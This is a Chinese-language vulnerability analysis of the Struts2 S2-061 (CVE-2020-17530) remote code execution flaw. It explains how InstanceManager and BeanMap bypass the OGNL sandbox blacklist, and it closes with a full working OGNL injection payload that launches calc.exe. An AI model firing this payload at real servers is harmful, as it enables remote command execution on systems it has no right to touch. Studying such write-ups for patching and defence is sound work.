









- [CVE-2020-17530(s2-061) Struts2 远程代码执行](#cve-2020-17530s2-061-struts2-远程代码执行)
  - [影响版本](#影响版本)
  - [原理分析](#原理分析)
    - [之前的补丁](#之前的补丁)
    - [InstanceManager](#instancemanager)
    - [BeanMap](#beanmap)
    - [Bypass](#bypass)
    - [漏洞复现](#漏洞复现)
# CVE-2020-17530(s2-061) Struts2 远程代码执行
## 影响版本
Struts 2.0.0 - Struts 2.5.25
## 原理分析
### 之前的补丁
对s2-059的沙盒Bypass,主要是对5.16之后沙盒进行了绕过,在5.16中黑名单中又增加了1`com.opensymphony.xwork2.ognl`.  
  
而之前通过attr的ValueStack来获取context的方法就位于`com.opensymphony.xwork2.ognl`包中,导致无法再通过`ValueStack.getContext()`获取到context.  
### InstanceManager
在context map的application map中存有一个`org.apache.tomcat.InstanceManager`对象,其实现类为`DefaultInstanceManager`,而该类存在于tomcat中间件的环境中.
  
在`DefaultInstanceManager`中存在一个`newInstance`方法,可以根据类名返回实例对象.  
  
现在便可以创建一个有Public无参构造函数的类了,但我们需要找一个可以得到contextm map的方法.
### BeanMap
BeanMap类是存在于Apache Commons Collections依赖包中的一个类,其构造函数为public无参构造函数,且其中会调用initialise方法,可以根据传入的对象来生成该类的BeanInfo.  
 
  
在其中将该对象类的读写(getter/setter)方法都分别放入了一个HashMap中.  
在BeanMap类的get方法中则会调用该对象类的get方法.  
  
### Bypass
在之前的补丁中因为`com.opensymphony.xwork2.ognl`包被加入了黑名单,无法执行`getContext`方法,但我们可以通过`InstanceManager`创建一个`BeanMap`,再将`ValueStack`放入BeanMap中,则可以通过其BeanMap的get方法来间接执行`ValueStack#getContext()`方法,则可以再次得到context map.  
同样的的通过OgnlContxt的`getMemberAccess()`来得到`SecurityMemberAccess`.    
  
然后再利用`BeanMap`的put方法(其会调用对应额set方法)来调用其`setExcludedPackageNames`和`setExcludedClasses`重置黑名单即可.   
  
最后再利用newInstance创建一个`freemarker.template.utility#Execute`类,其存在无参构造函数,且其exec方法中可以直接执行命令.
  
### 漏洞复现
poc:  
`%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("calc.exe")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}`  

